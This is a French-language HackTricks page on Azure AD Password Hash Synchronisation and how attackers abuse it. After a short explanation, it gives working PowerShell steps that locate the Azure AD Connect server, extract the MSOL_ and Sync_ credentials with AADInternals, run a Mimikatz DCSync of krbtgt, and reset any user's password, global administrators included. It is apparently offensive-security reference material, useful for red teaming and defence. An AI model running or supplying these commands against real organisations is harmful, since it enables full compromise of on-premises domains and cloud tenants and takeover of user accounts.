 # Az - PHS - Synchronisation des mots de passe

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

- Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
- Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
- Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
- **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
- **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## Informations de base

[À partir de la documentation :](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) La **synchronisation des hachages de mots de passe** est l'une des méthodes de connexion utilisées pour réaliser une identité hybride. **Azure AD Connect** synchronise un hachage, du hachage, du mot de passe d'un utilisateur à partir d'une instance Active Directory sur site vers une instance Azure AD basée sur le cloud.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

C'est la **méthode la plus courante** utilisée par les entreprises pour synchroniser un AD sur site avec Azure AD.

Tous les **utilisateurs** et un **hachage des hachages de mots de passe** sont synchronisés de l'AD sur site vers Azure AD. Cependant, les **mots de passe en clair** ou les **hachages originaux** ne sont pas envoyés à Azure AD.\
De plus, les groupes de sécurité **intégrés** (comme les administrateurs de domaine...) ne sont **pas synchronisés** vers Azure AD.

La **synchronisation des hachages** se produit toutes les **2 minutes**. Cependant, par défaut, **l'expiration du mot de passe** et **l'expiration du compte** ne sont **pas synchronisées** dans Azure AD. Ainsi, un utilisateur dont le **mot de passe sur site a expiré** (non modifié) peut continuer à **accéder aux ressources Azure** en utilisant l'ancien mot de passe.

Lorsqu'un utilisateur sur site souhaite accéder à une ressource Azure, l'**authentification a lieu sur Azure AD**.

**PHS** est requis pour des fonctionnalités telles que **la protection de l'identité** et les services de domaine AAD.

## Pivotement

Lorsque PHS est configuré, certains comptes **privilégiés** sont automatiquement **créés** :

- Le compte **`MSOL_<installationID>`** est automatiquement créé dans l'AD sur site. Ce compte reçoit un rôle **Comptes de synchronisation de répertoire** (voir [documentation](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) ce qui signifie qu'il a des **permissions de réplication (DCSync) dans l'AD sur site**.
- Un compte **`Sync_<nom du serveur ADConnect sur site>_installationID`** est créé dans Azure AD. Ce compte peut **réinitialiser le mot de passe de N'IMPORTE QUEL utilisateur** (synchronisé ou uniquement dans le cloud) dans Azure AD.

Les mots de passe des deux comptes privilégiés précédents sont **stockés dans un serveur SQL** sur le serveur où **Azure AD Connect est installé.** Les administrateurs peuvent extraire les mots de passe de ces utilisateurs privilégiés en clair.\
La base de données est située dans `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Il est possible d'extraire la configuration à partir de l'une des tables, l'une étant chiffrée :

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

La **configuration chiffrée** est chiffrée avec **DPAPI** et elle contient les **mots de passe de l'utilisateur `MSOL_*`** dans l'AD sur site et le mot de passe de **Sync\_\*** dans AzureAD. Par conséquent, compromettre ceux-ci permet de passer à l'AD et à AzureAD.

Vous pouvez trouver un [aperçu complet de la façon dont ces informations d'identification sont stockées et déchiffrées dans cette présentation](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Recherche du **serveur Azure AD Connect**

Si le **serveur où Azure AD Connect est installé** est joint à un domaine (recommandé dans la documentation), il est possible de le trouver avec :
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Abus de MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Vous pouvez également utiliser [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) pour obtenir ces informations d'identification.
{% endhint %}

### Abus de Sync\_\*

En compromettant le compte **`Sync_*`**, il est possible de **réinitialiser le mot de passe** de n'importe quel utilisateur (y compris les administrateurs globaux)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Il est également possible de **modifier les mots de passe des utilisateurs uniquement dans le cloud** (même si c'est inattendu)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Il est également possible de récupérer le mot de passe de cet utilisateur.

{% hint style="danger" %}
Une autre option serait de **attribuer des autorisations privilégiées à un principal de service**, ce que l'utilisateur **Sync** a la **permission** de faire, puis **accéder à ce principal de service** comme moyen de privilège.
{% endhint %}

### Authentification unique transparente

Il est possible d'utiliser l'authentification unique transparente avec PHS, ce qui est vulnérable à d'autres abus. Vérifiez-le ici :

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Références

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
